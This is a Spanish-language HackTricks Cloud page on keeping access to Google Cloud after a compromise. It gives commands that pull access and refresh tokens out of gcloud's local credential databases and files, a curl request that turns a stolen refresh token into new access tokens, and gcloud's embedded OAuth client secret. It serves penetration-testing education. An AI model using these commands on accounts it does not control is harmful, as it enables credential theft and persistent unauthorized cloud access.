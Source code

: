 # GCP - Persistencia no-svc

<details>

<summary><strong>Aprende a hackear AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Estas son técnicas útiles una vez que, de alguna manera, has comprometido algunas credenciales de GCP o una máquina que se ejecuta en un entorno de GCP.

## Secuestro de Token

### Tokens de Usuario Autenticados

Para obtener el **token actual** de un usuario, puedes ejecutar: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Consulte en esta página cómo **usar directamente este token usando gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Para obtener los detalles para **generar un nuevo token de acceso**, ejecute:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

También es posible encontrar tokens de actualización en **`$HOME/.config/gcloud/application_default_credentials.json`** y en **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Para obtener un nuevo token de acceso actualizado con el **token de actualización**, ID de cliente y secreto de cliente, ejecuta: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

La validez de los tokens de actualización se puede gestionar en **Admin** > **Seguridad** > **Control de sesión de Google Cloud**, y de forma predeterminada está configurada en 16 horas, aunque se puede configurar para que nunca expire:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Flujo de autenticación

El flujo de autenticación al usar algo como `gcloud auth login` abrirá un cuadro de diálogo en el navegador y después de aceptar todos los ámbitos, el navegador enviará una solicitud como esta al puerto http abierto por la herramienta:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Entonces, gcloud usará el estado y el código con un `client_id` codificado (`32555940559.apps.googleusercontent.com`) y **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) para obtener los **datos finales del token de actualización**.

{% hint style="danger" %}
Ten en cuenta que la comunicación con localhost es en HTTP, por lo que es posible interceptar los datos para obtener un token de actualización, sin embargo, este dato es válido solo una vez, por lo que sería inútil, es más fácil simplemente leer el token de actualización desde el archivo.
{% endhint %}

### Cuentas de Servicio

Al igual que con los usuarios autenticados, si logras **comprometer el archivo de clave privada** de una cuenta de servicio podrás **acceder a ella generalmente todo el tiempo que desees**.\
Sin embargo, si robas el **token de OAuth** de una cuenta de servicio esto puede ser aún más interesante, porque, aunque por defecto estos tokens son útiles solo por una hora, si la **víctima elimina la clave de API privada, el token de OAuth seguirá siendo válido hasta que expire**.

### Metadatos

Obviamente, mientras estés dentro de una máquina que se ejecuta en el entorno de GCP podrás **acceder a la cuenta de servicio adjunta a esa máquina contactando el punto final de metadatos** (ten en cuenta que los tokens de OAuth a los que puedes acceder en este punto final suelen estar restringidos por alcances).

### Soluciones

Algunas soluciones para estas técnicas se explican en [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Referencias

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
